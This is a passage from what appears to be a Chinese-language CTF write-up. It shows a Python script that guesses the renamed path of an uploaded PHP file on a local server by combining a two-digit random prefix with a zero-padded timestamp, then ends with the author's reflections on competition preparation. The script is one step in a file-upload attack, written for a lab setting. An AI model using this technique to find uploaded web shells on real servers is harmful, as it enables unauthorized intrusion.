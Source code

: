 ```python
nowTime = datetime.datetime.now()
stamp = (
    str(nowTime.year)+
    str(nowTime.month)+
    str(nowTime.day)+
    str(nowTime.hour)+
    str(nowTime.minute)+
    str(nowTime.second)
)
```

但是这同样有问题，因为在时间戳中，单独的数要用0补全为两位

因此要用到`zfill()`函数

- `zfill()`：为字符串定义长度，若不足用0填补



最后再用for循环构造前两位随机数

最后便可写出如下脚本

```python
import requests
import datetime

url = "http://localhost:10086/upload/%s.php"


def Attack(target):
    r = requests.get(target)
    if r.status_code == 200:
        print("Upload seccessed!")
        exit()
    else:
        print("Retrying.")


while True:
    for i in range(10, 99):
        nowTime = datetime.datetime.now()

        stamp = (
            str(nowTime.year)
            + str(nowTime.month).zfill(2)
            + str(nowTime.day).zfill(2)
            + str(nowTime.hour).zfill(2)
            + str(nowTime.minute).zfill(2)
            + str(nowTime.second).zfill(2)
        )

        target = url % (str(i) + stamp)
        Attack(target)

```



## 0x04 闲话

还是学到了很多的，原本想这天把`session.upload_progress`的利用搞明白的，现在来看又要搁置了，剩下不到两周时间还是得专心搞设备，毕竟是第一次参加这种比赛，还是不希望仅仅只是混了点经验就回来